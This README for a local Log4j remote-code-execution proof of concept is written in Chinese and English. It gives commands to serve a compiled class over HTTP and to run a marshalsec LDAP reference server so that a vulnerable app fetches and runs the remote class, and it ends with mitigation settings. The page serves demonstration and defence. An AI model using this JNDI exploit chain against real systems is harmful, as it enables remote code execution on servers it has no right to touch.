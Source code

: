 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响


### Steps
1. 【Important】***Move*** Log4jRCE.java to /home/remote/Log4jRCE.java, or any other directories except apache-log4j-poc.

2. Compile Log4jRCE.java and start http server
   1. `cd /home/remote`
   2. `javac Log4jRCE.java`
   3. start http server，python or php，`php -S 127.0.0.1:8888`

3. Start ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. start ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
   
4. Start log4j.java, then you can see `I am Log4jRCE from remote!!!`


### 触发步骤
1. 【重要】将Log4jRCE.java **挪出** 当前项目目录，比如挪到/home/remote/Log4jRCE.java，不然log4j.java运行时会读取到本地的Log4jRCE.java，就不走http远程下载了！

2. 编译Log4jRCE.java并启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 127.0.0.1:8888`

3. 启动ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
4. 启动log4j.java，然后就会发现命令行出现了`I am Log4jRCE from remote!!!`。底层就是会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true
